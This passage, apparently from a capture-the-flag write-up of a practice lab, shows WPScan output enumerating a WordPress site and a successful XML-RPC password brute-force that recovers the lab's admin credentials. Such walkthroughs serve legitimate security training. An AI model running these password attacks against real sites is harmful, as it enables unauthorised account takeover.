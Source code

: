 ```
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <=============================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                 
Trying admin / princess7 Time: 00:02:19 <                                                                          > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri May 14 13:56:06 2021
[+] Requests Done: 4058
[+] Cached Requests: 5
[+] Data Sent: 2.045 MB
[+] Data Received: 2.647 MB
[+] Memory used: 255.074 MB
[+] Elapsed time: 00:02:30

```

Oh boy, oh boy! That actually worked cool! So we have admin access to Wordpress now with: `admin:my2boys`
